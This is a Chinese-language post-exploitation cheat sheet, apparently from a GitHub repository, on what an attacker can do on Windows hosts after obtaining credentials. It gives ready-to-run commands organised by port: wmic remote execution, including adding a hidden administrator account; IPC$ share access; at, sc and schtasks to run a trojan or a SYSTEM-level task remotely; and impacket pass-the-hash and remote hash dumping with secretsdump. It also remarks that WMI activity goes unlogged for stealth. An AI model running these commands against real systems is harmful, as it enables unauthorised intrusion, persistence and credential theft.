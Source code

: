 # windows 拥有凭证之后能做的哪些事
# 利用端口扫描发现能做的姿势
## 135 端口
### 服务
Remote Procedure Call (RPC) Locator 管理 RPC 名称服务数据库。

Server 支持此计算机通过网络的文件、打印、和命名管道共享。如果服务停止，这些功能不可用。

NTLM Security Support Provider 为使用传输协议而不是命名管道的远程过程调用(RPC)程序提供安全机制。

TCP/IP NetBIOS Helper 允许对“TCP/IP 上 NetBIOS (NetBT)”服务以及 NetBIOS 名称解析的支持
### WMI
Windows Management Instrumentation，它出现在所有的 Windows操作系统中，并由一组强大的工具集合组成，用于管理本地或远程的Windows系统，攻击者使用wmi来进行攻击，但 Windows 系统默认不会在日志中记录这些操作，可以做到无日志，攻击脚本无需写入到磁盘，增加了隐蔽性。
### wmic 远程命令执行
```
1.列出远程主机进程
wmic /node:192.168.1.1 /user:192.168.1.1\administrator /password:!@#123QWE process list brief
2.在远程系统上执行bat脚本
wmic /node:192.168.1.1 /user:192.168.1.1\administrator /password:!@#123QWE process call create c:\programdata\test.bat
3.在远程系统上执行单条命令
wmic /node:192.168.1.1 /user:192.168.1.1\administrator /password:!@#123QWE process call create "cmd.exe /c net user test1 !@#123QWE /add && net localgroup administrators test1 /add
```

## 139端口,445 端口
## 服务
SMB，全称是Server Message Block（服务器消息快协议），用于在计算机间共享文件、打印机、串口等，电脑上的网上邻居
### ipc
IPC$(Internet Process Connection) 是为了让进程之间通信的一种“管道”，通过提供用户名密码建立了一条安全的、加密的、用于数据交换的通道。当然，还是在同一个时间，还是同样的两个IP，他们之间只能建立一个IPC$连接，脚踏多条船无论什么时候都是不可取的。通过这个连接，可以实现在被连接的目标机器上搞文件上传、下载、命令执行……
```
建立ipc连接
net use \\target_ip passowrd /user:admin\username

查看连接
net use 

删除连接
net use \\target_ip /del

利用(可以对目标文件像本地文件一样操作):

dir \\target\c$\ (远程遍历目标文件)
tasklist /s target_ip (远程查看目标进程)
copy local\path\file \\target_IP\path (文件传输)
```
### at
at 命令是Windows自带的用于创建计划任务的命令，但是at 命令只在2003及以下的版本使用。我们可以通过at命令通过跳板机在目标主机DC上创建计划任务，让计算机在指定的时间执行木马程序，从而获得对内网目标主机的控制。
```
条件:
建立了ipc 连接
net use \\target_ip passowrd /user:admin\username

执行命令
at \\target_ip 16:40:00 cmd.exe /c "命令"         到时执行命令
```
### sc 
是用于与服务控制管理器和服务进行通信的命令行程序。
```
条件:
建立了ipc 连接
net use \\target_ip passowrd /user:admin\username
1.创建服务
sc \\target_ip create [servername] binpath= "path/bad.exe"
2.查询服务
sc \\target_ip query servername
3.运行服务
sc \\target_ip run [servername]
4.删除服务
sc \\target_ip run delete [servername]
```
### schtasks
计划要定期运行或特定时间运行的命令和程序，在计划中添加和删除任务，按需启动和停止任务，并显示和更改计划的任务。

```
1.创建计划任务(用户登录执行)
schtasks /CREATE /TN [taskname] /TR [program绝对路径] /SC ONLOGON /RU "SYSTEM" /S [host] /U [user] /P [pass]  /F
定时执行一次
schtasks /CREATE /TN [taskname] /TR [program绝对路径] /SC ONCE /RU "SYSTEM" /ST [time] /S [host] /U [user] /P [pass]  /F	
#每天定时执行
schtasks /CREATE /TN [taskname] /TR [program绝对路径] /SC DAILY /RU "SYSTEM" /ST [time] /S [host] /U [user] /P [pass]  /F	
2.立即执行计划任务
schtasks /RUN /TN [taskname] /S [host] /U [user] /P [pass] /I		
3.删除计划任务
schtasks /DELETE /TN [taskname] /S [host] /U [user] /P [pass] 			
schtasks /DELETE /TN [taskname] /S [host] /U [user] /P [pass] /F	#强制删除
```

### PTH(hash传递)
#### impacket(kali)
```
1.远程执行命令
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c user@192.168.1.2 cmd.exe
2.建立ipc连接
impacket-smbclient -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c user@192.168.1.2
3.远程导hash
impacket-secretsdump WORKGROUP/Administrator@10.1.1.1 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

